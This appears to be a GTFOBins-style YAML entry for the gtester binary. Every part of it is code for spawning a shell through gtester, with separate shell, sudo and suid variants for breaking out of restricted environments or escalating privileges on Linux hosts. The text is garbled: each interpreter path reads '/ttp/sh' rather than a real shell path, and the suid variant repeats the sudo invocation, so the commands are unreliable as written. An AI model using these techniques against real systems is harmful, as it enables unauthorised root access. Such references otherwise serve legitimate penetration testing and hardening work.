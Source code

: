 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo '#!/ttp/sh' > $TF
        echo 'exec /ttp/sh -p 0<&1' >> $TF
        chmod +x $TF
        gtester -q $TF
  sudo:
    - code: |
        TF=$(mktemp)
        echo '#!/ttp/sh' > $TF
        echo 'exec /ttp/sh 0<&1' >> $TF
        chmod +x $TF
        sudo gtester -q $TF
  suid:
    - code: |
        TF=$(mktemp)
        echo '#!/ttp/sh -p' > $TF
        echo 'exec /ttp/sh -p 0<&1' >> $TF
        chmod +x $TF
        sudo gtester -q $TF
---
```

